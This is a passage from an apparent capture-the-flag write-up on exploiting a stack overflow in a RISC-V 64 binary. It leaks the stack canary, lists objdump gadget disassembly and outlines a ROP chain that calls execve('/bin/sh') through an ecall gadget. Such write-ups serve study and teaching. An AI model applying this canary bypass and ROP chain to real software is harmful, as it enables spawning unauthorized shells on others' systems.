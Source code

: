 then we can overflow the second input and bypass the canary check so that we can control the `%pc` register and craft a ropchain to call execve with `/bin/sh` as the first parameter. 

# Exploitation

first we need some gadget to set the register value in order to call `execve()`. We can use riscv64 toolchain `riscv64-unknown-elf-objdump` to gather all gadget that we need. `execve()` in riscv64 is 221 and we need to set the register value to look like this

    execve(0x[address to /bin/sh], 0, 0)

I use this gadget since it cover all registers we need

{% highlight c %}
  4281a:	832a                	mv	t1,a0
    4281c:	60a6                	ld	ra,72(sp)
    4281e:	6522                	ld	a0,8(sp)
    42820:	65c2                	ld	a1,16(sp)
    42822:	6662                	ld	a2,24(sp)
    42824:	7682                	ld	a3,32(sp)
    42826:	7722                	ld	a4,40(sp)
    42828:	77c2                	ld	a5,48(sp)
    4282a:	7862                	ld	a6,56(sp)
    4282c:	6886                	ld	a7,64(sp)
    4282e:	2546                	fld	fa0,80(sp)
    42830:	25e6                	fld	fa1,88(sp)
    42832:	3606                	fld	fa2,96(sp)
    42834:	36a6                	fld	fa3,104(sp)
    42836:	3746                	fld	fa4,112(sp)
    42838:	37e6                	fld	fa5,120(sp)
    4283a:	280a                	fld	fa6,128(sp)
    4283c:	28aa                	fld	fa7,136(sp)
    4283e:	6149                	addi	sp,sp,144
    42840:	8302                	jr	t1
{% endhighlight %}

We also need another gadget so we can return safely to `%a0` and trigger the syscall there

{% highlight c %}
 another gadget
    4abf4:	6562                	ld	a0,24(sp)
    4abf6:	70a2                	ld	ra,40(sp)
    4abf8:	6145                	addi	sp,sp,48
    4abfa:	8082                	ret
{% endhighlight %}

Last thing we need an `ecall` instruction to trigger the syscall 

{% highlight c %}
 356de:	00000073          	ecall
    356e2:	8082                	ret
{% endhighlight %}

So our plan is:
1. We leak the address variable and canary value from the first input
2. craft a ropchain that can be used to bypass the canary protection 
3. overwrite the `%pc` to the first gadget so we can set all register properly to call `execve()` syscall
4. since we already know the address of our input, we can stored our `/bin/sh` string there 
5. trigger the syscall by jump to `ecall` instruction
